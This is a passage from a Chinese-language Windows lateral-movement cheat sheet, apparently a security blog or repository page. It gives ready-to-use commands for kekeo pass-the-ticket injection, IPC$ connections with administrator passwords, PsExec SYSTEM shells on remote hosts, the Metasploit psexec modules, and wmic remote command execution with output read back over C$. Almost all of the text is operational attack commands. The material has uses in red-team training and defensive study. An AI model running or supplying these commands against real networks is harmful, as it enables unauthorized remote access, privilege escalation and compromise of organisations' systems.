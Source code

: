 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>kekeo "kerberos::ptt xxx.kirbi"<br>``` |

## [](#psexec-%E7%9A%84%E4%BD%BF%E7%94%A8)PsExec 的使用

### [](#pstools-%E5%B7%A5%E5%85%B7%E4%B8%AD%E7%9A%84-psexec)PsTools 工具中的 PsExec

#### [](#%E5%BB%BA%E7%AB%8B-ipc-%E8%BF%9E%E6%8E%A5-1)建立 IPC 连接

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>net use \\IP\ipc$ "password" /u:administrator<br>``` |

#### [](#%E8%8E%B7%E5%8F%96-system-%E6%9D%83%E9%99%90%E7%9A%84-%E4%BA%A4%E4%BA%92%E5%BC%8Fshell)获取 System 权限的 交互式 shell

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```cmd<br>PsExec.exe -accepteula \\IP -s cmd.exe<br>或<br>PsExec.exe -accepteula \\IP -s cmd.exe /c ipconfig<br>``` |

如果不使用 -s 命令，则创建一个 Administrator 权限的 shell

如果没有建立 IPC 连接：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>PsExec.exe -accepteula \\IP -u administrator -p password -s cmd.exe<br>``` |

### [](#metasploit-%E4%B8%AD%E7%9A%84-psexec-%E6%A8%A1%E5%9D%97)Metasploit 中的 psexec 模块

-   exploit/windows/smb/psexec
-   exploit/windows/smb/psexec\_psh（powershell 版本）

## [](#wmi-%E7%9A%84%E4%BD%BF%E7%94%A8)WMI 的使用

### [](#%E5%9F%BA%E6%9C%AC%E5%91%BD%E4%BB%A4)基本命令

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>wmic /node:IP /user:administrator /password:passed process call create "cmd.exe /c ipconfig > ip.txt"<br>``` |

建立 IPC 连接后，使用 type 命令读取结果：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>type \\IP\C$\ip.txt<br>``` |
